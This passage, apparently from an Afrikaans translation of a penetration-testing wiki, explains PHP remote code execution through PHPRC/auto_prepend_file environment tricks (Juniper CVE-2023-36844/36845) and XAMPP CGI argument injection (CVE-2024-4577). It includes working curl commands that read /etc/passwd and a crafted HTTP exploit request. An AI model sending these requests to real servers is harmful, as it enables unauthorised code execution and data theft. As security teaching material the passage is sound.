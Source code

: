 Verskillende .htaccess shells kan [hier](https://github.com/wireghoul/htshells) gevind word.

### RCE via Env Variabeles

As u 'n kwesbaarheid vind wat u toelaat om **omgewingsvariabeles in PHP te wysig** (en nog een om lêers op te laai, alhoewel met meer navorsing kan dit miskien omseil word), kan u hierdie gedrag misbruik om **RCE** te verkry.

- [**`LD_PRELOAD`**](../../../linux-hardening/privilege-escalation/#ld_preload-and-ld_library_path): Hierdie omgewingsvariabele laat u toe om arbitrêre biblioteke te laai wanneer u ander binêre uitvoer (alhoewel dit in hierdie geval dalk nie werk nie).
- **`PHPRC`** : Gee PHP instruksies oor **waar om sy konfigurasielêer te vind**, wat gewoonlik `php.ini` genoem word. As u u eie konfigurasielêer kan oplaai, gebruik dan `PHPRC` om PHP daarop te wys. Voeg 'n **`auto_prepend_file`** inskrywing by wat 'n tweede opgelaaide lêer spesifiseer. Hierdie tweede lêer bevat normale **PHP kode, wat dan** deur die PHP runtime uitgevoer word voordat enige ander kode.
1. Laai 'n PHP-lêer op wat ons shellcode bevat.
2. Laai 'n tweede lêer op, wat 'n **`auto_prepend_file`** riglyn bevat wat die PHP voorverwerker instrueer om die lêer wat ons in stap 1 opgelaai het, uit te voer.
3. Stel die `PHPRC` variabele in op die lêer wat ons in stap 2 opgelaai het.
- Kry meer inligting oor hoe om hierdie ketting uit te voer [**uit die oorspronklike verslag**](https://labs.watchtowr.com/cve-2023-36844-and-friends-rce-in-juniper-firewalls/).
- **PHPRC** - 'n ander opsie.
- As u **nie lêers kan oplaai nie**, kan u in FreeBSD die "lêer" `/dev/fd/0` gebruik wat die **`stdin`** bevat, wat die **liggaam** van die versoek is wat na die `stdin` gestuur is:
- `curl "http://10.12.72.1/?PHPRC=/dev/fd/0" --data-binary 'auto_prepend_file="/etc/passwd"'`
- Of om RCE te verkry, stel **`allow_url_include`** in en voeg 'n lêer met **base64 PHP kode** voor:
- `curl "http://10.12.72.1/?PHPRC=/dev/fd/0" --data-binary $'allow_url_include=1\nauto_prepend_file="data://text/plain;base64,PD8KICAgcGhwaW5mbygpOwo/Pg=="'`
- Tegniek [**uit hierdie verslag**](https://vulncheck.com/blog/juniper-cve-2023-36845).

### XAMPP CGI RCE - CVE-2024-4577

Die webbediener ontleed HTTP versoeke en stuur dit na 'n PHP-skrip wat 'n versoek uitvoer soos [`http://host/cgi.php?foo=bar`](http://host/cgi.php?foo=bar&ref=labs.watchtowr.com) as `php.exe cgi.php foo=bar`, wat 'n parameterinjeksie toelaat. Dit sal toelaat om die volgende parameters in te voeg om die PHP-kode uit die liggaam te laai:
```jsx
-d allow_url_include=1 -d auto_prepend_file=php://input
```
Boonop, dit is moontlik om die "-" param te injekteer met die 0xAD karakter as gevolg van latere normalisering van PHP. Kyk na die eksploit voorbeeld van [**hierdie pos**](https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/):
```jsx
POST /test.php?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1
Host: {{host}}
User-Agent: curl/8.3.0
Accept: */*
Content-Length: 23
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

<?php
phpinfo();
?>

```
## PHP Sanitization omseiling & Brain Fuck
